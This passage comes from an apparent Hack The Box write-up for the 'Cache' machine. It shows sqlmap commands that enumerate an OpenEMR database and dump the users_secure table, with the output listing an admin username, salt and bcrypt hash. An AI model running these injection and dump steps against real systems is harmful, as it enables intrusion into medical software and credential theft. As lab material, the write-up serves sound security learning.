 And I got two `databases`

- information_schema
- openemr

> Dumping tables in db `openemr`

```shell
┌─[root@cyb3rhoL1c]─[~/Documents/htb/writeup/cache]
└──╼ #sqlmap -r login.req --threads=10 -D openemr --table
```

From this query we got all the tables in `openemr` db

> It is very long so can't show all

There is a table called `users_secure`

> Dumping columns from table `users_secure`

```shell
┌─[root@cyb3rhoL1c]─[~/Documents/htb/writeup/cache]
└──╼ #sqlmap -r login.req --threads=10 -D openemr -T users_secure --column
```

> Output

```
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| id                | bigint(20)   |
| last_update       | timestamp    |
| password          | varchar(255) |
| password_history1 | varchar(255) |
| password_history2 | varchar(255) |
| salt              | varchar(255) |
| salt_history1     | varchar(255) |
| salt_history2     | varchar(255) |
| username          | varchar(255) |
+-------------------+--------------+

```

Let's `dump` all the data from the `table`

```shell
sqlmap -r login.req --threads=10 -D openemr -T users_secure --dump
```

> Output

```
id,salt,username,password,last_update,salt_history2,salt_history1,password_history2,password_history1
1,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.,2019-11-21 06:38:40,NULL,NULL,NULL,NULL

```
